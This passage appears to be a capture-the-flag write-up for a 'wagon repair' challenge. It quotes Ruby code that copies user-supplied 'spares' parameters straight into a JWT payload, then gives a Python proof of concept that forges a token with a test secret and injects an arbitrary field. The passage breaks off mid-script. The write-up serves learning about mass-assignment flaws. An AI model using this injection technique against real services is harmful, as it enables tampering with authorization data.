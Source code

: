 ## Analyzing wagon repair

navy356 found out an interesting feature in wagon repair server.

```ruby:wagon-repair/main.rb
if params[:spares]
  params[:spares].each do |item_type, count|
    price = NEW_PRICES[item_type].to_f
    total_cost += count.to_f * price
    payload[item_type] = count
  end
end
```

This enables us to set any field to a specified string. For example, 

```python
import requests
import jwt

secret = "TESTJWTSECRET"

HOST = "localhost"
URL = f"http://{HOST}/"

token = jwt.encode(
    {
        "iss": "charter-authority",
        "aud": "wagon-repair",
        "tokens": 500,
        "wagon": {
            "wheels": {
                "frontLeft": 1,
                "frontRight": 1,
                "backLeft": 1,
                "backRight": 1,
            },
            "axles": {"front": 1, "back": 1},
            "cover": 1,
        },
    },
    key=secret,
    algorithm="HS256",
)

r = requests.post(
    URL + "submit",
    headers={"Host": f"wagonrepair.{HOST}"},
    data={
        "jwt": token,
        "wheels[frontLeft]": "replace",
        "wheels[frontRight]": "replace",
        "wheels[backLeft]": "replace",
        "wheels[backRight]": "replace",
        "axles[front]": "replace",
        "axles[back]": "replace",
        "cover": "replace",
        "spares[foo]": "bar",  # adding "foo" field
    },
    allow_redirects=False,
)
token = r.headers["Location"].split("=")[-1]
decoded = jwt.decode(
    token,
    key=secret,
```